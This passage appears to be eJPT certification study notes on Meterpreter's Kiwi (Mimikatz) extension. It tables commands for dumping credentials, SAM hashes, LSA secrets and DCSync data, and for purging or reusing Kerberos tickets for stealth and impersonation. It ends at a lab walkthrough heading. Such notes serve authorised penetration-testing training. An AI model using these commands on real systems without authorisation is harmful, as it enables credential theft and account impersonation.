 
## ⚙️ Important Kiwi Commands You Need to Know

### **🔍 Core Credential Commands:**

| Command | What It Does | How Important for eJPT |
|---------|--------------|------------------------|
| `creds_all` | Extract all available credentials | ⭐⭐⭐⭐⭐ Must Know |
| `creds_msv` | Get MSV credentials from memory | ⭐⭐⭐⭐ Very Important |
| `creds_kerberos` | Dump Kerberos authentication data | ⭐⭐⭐ Important |
| `creds_livessp` | Extract LiveSSP credentials | ⭐⭐⭐ Important |

### **🗄️ System Database Commands:**

| Command | What It Does | When to Use |
|---------|--------------|-------------|
| `lsa_dump_sam` | Extract local user account hashes | When you need local passwords |
| `lsa_dump_secrets` | Get LSA secret information | For advanced credential harvesting |
| `dcsync` | Domain controller password sync | In Active Directory environments |

### **🎫 Kerberos Commands:**

| Command | What It Does | Example Usage |
|---------|--------------|---------------|
| `kerberos_ticket_list` | Show current Kerberos tickets | Check what tickets are available |
| `kerberos_ticket_purge` | Delete all Kerberos tickets | Clear tickets for stealth |
| `kerberos_ticket_use` | Use specific ticket for authentication | Impersonate other users |

### **🔧 Important Settings to Remember:**

| What to Set | Purpose | Example | Must Remember |
|-------------|---------|---------|---------------|
| **Process Migration** | Stable operation | `migrate -N lsass.exe` | ⭐⭐⭐⭐⭐ |
| **Extension Loading** | Enable Kiwi features | `load kiwi` | ⭐⭐⭐⭐⭐ |
| **Privilege Check** | Verify access level | `getuid` | ⭐⭐⭐⭐ |

---

## 🧪 Step-by-Step Lab Walkthrough

### **Lab Scenario: Complete Credential Extraction From Windows Target**
